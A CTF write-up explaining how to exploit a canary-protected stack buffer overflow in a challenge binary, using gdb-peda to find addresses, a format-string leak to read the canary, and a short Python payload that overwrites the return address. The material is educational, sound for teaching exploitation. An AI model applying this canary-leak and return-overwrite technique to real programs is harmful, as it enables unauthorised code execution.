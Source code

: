 # Easy Canary Buffer Overflow 
_Just some tips to remeber how to resolve easy buffer overflows with canary. This challenge is from the amstrong2020 CTF_

## Steps 📝
**1.  Check the typical "win" or "flag" function on the binary with gdb (it's recommended to have [PEDA](https://github.com/longld/peda) installed to see registers and the program instructions in a prettier way).**

To open the binary with gdb:
```
gdb binary
```
To see the differents functions on the binary: 
```
gdb-peda$ info functions
```
![Functions Addresses](images/functions.png)


**2. Get "flag" function memory address**: 
```
gdb-peda$ info functions flag 
```

![Function Address](images/function_address.png)


**3. Finding the canary to prepare the payload**:

First we should puts a breakpoint on the "vulnerable" method (for example gets or fgets)

```
gdb-peda$ disas main
```
![Gets address](images/gets_address.png)

```
gdb-peda$ b *0x000000000040093b ("gets" memory address)
```

Run the binary with gdb until reaching the breakpoint

```
gdb-peda$ run
```
Execute the next instruction of the program (it will call the "gets" where we have put the breakpoint and ask for an input, in this case we are going to write some 'A'):
```
gdb-peda$ ni
AAAAAAAAAAAAA
```
Then we have to look at the rsp register to see where our input has been stored ('A' in ASCII is 41): 
```
gdb-peda$ x/20gx $rsp
```
![RSP values](images/rsp_values.png)

If we look closer we can see the value "0x6f54534ae2410d00", this "strange" value which is different from the others on the stack is the canary (8 bytes, the length of the word, that changes in every program execution), so we have to do the buffer overflow writing the exact same value on this position. 

As the canary changes in each execution we have to print it with a format string vulnerability in order to add it to the payload (in the "canary" binary we can make a format string vulnerability in the line "printf(strcat(name, "!\n"));"). To print it we should use some %p to see in which position the canary is printed, in this case is the position 17 (it is recommended to see some format strings [videos](https://www.youtube.com/watch?v=0WvrSfcdq1I)):

![RSP values](images/format_string.png)

Now, we have the canary value which will be added to our payload. The next step is to overwrite the return address of the function in order to redirect the program to the "flag" function and get our flag. 


**4. Getting the return address of the function**

To get the return address of the function we have to put a breakpoint on the "ret" instruction:
```
gdb-peda$ breakpoint *0x400956
```
When the execution reachs the breakpoint we have to see the first position of the stack where is the returing address of the program is: 
```
gdb-peda$ x/gx $rsp
```
![RSP values](images/return_address.png)

Finally to expltoit the second "gets" with the bufferoverflow we check how many bytes we have to write until the canary and then until the return address where we will put the flag return address obtained on the first step of this guide:

![RSP values](images/to_overwrite.png)

So the payload will be: 56 chars until reach the canary, the canary obtained, 8 chars more and the flag function address (If you got a segfault in the movaps XMMWORD PTR [rsp+0x40],xmm0 instruction you have to align the stack jumping to other ret instruction and then set the target address as you can see in the solution.py script)

```
payload = 'A'*56
payload += p64(int(canary, 16))
payload += 'A'*8
payload += p64(MAIN_RET)
payload += p64(FLAG_ADDRESS)
```


